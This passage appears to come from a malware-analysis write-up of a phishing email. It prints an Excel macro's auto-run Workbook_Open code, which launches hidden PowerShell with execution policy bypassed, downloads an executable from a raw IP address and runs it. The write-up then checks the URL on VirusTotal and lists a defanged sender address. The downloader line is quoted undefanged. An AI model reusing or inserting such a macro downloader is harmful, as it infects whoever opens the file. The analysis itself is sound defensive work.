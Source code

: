 The code begins with the `Workbook_Open()` subroutine, which is triggered when the workbook is opened:

```
Private Sub Workbook_Open()
```

It then defines a couple of variables, `sCommand` for the PowerShell command, and `sOutput` to store the output from the command execution:

```
Dim sCommand As String, sOutput As String
Dim oWshShell As Object, oWshShellExec As Object
```

The `sCommand` variable is assigned a PowerShell command string. This command performs several actions, starting with setting the execution policy to bypass and running PowerShell with a hidden window (`-WindowStyle hidden`):

```
sCommand = "powershell -WindowStyle hidden -executionpolicy bypass; $TempFile = [IO.Path]::GetTempFileName() | Rename-Item -NewName { $_ -replace 'tmp$', 'exe' } PassThru; Invoke-WebRequest -Uri ""http://3.73.132.53/hz/Etolfsojm.exe"" -OutFile $TempFile; Start-Process $TempFile;"
```

The specific PowerShell command that gets executed then: 

1. Creates a temporary file with an `.exe` extension.
2. Uses `Invoke-WebRequest` to download a file named `Etolfsojm.exe` from `http://3.73.132.53/hz/`.
3. Executes the downloaded executable with `Start-Process`.

## Conclusion

Great work! We were able to securely extract the attachment from the email and use basic static analysis techniques to parse through the OLE objects. By doing so, we were able to understand the true nature of the document's embedded macro and document a number of malicious indicators.

We can even go as far as submitting the URL we identified in the macro against malware databases - again, by using [VirusTotal](https://virustotal.com):

![Virustotal submission page](https://github.com/user-attachments/assets/fb9d237e-2daa-49e7-bd4d-ded0cb27e4e3)

Upon doing so, we will quickly discover that this URL was flagged as malicious by 10 or so security vendors, further supporting our findings that this email was a phishing attempt.

![Virustotal results page](https://github.com/user-attachments/assets/46b0756b-06ec-4682-9b1e-f329a26cccbd)


## Indicators of Compromise (IoCs)
It's always a good idea to document the malicious artifacts we gathered during our investigation. Below, I have done so in *defanged* format. Defanging is a way to alter potentially dangerous URLs, IP addresses, and file paths to prevent them from being clickable or accidentally executed.

### Email Address
- `Paol[.]Reggiani@moss[.]it`
